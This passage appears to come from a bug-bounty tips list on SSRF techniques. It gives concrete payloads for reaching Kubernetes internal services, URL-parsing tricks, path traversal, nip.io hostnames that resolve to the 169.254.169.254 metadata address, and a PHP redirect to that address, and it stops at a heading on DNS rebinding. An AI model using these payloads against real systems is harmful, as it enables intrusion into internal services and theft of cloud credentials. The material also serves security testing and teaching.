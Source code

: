 ```
Also, try to hit the Kubernetes API: `https://kubernetes.default.svc`
<br><br>
7- In Kubernetes, you should be brute-forcing for:

`HOSTNAME.<some-namespace>.svc.cluster.local`

I often use Burp Intruder: `FUZZ.default.svc.cluster.local`

Need better wordlists?

Scrape helm charts from ArtifactHub.
<br><br>
8- Can't supply a full URL? You can still get SSRF!

If your input is used to build a URL, THINK.

Learn about URL structures.

The following 4 characters have led to many SSRFs:
```
• @
• ?
• #
• ;
```
An example is in the picture:
![ ](https://raw.githubusercontent.com/rbih-boulanouar/bugbounty/main/images/img1.jpeg)
<br><br>
9- If your injection is down the path, traverse!
```
GET /vulnerable?id=1234

|> app fetches: http://some-api/api/v1/1234
```
```

GET /vulnerable?id=../../

|> app fetches: http://some-api/api/v1/../../
```

Find an open redirect & you probably have SSRF.

Or likely can hit internal endpoints.

10- Use Hostnames Instead of IPs

Use services like `http://nip.io` to bypass direct IP bans. 

Here are some examples. All of these resolve to `169.254.169.254`.
```
http://169.254.169.254.nip.io
http://169-254-169-254.nip.io
http://a9fea9fe.nip.io (hexadecimal IP notation)
```
11- HTTP Redirects

Use redirects from a custom domain to a blocked IP to catch applications off-guard! 

Here’s a simple PHP script to perform the redirect.

`<?php header(“Location: http://169.254.169.254/”) ?>`

12- DNS Rebinding
```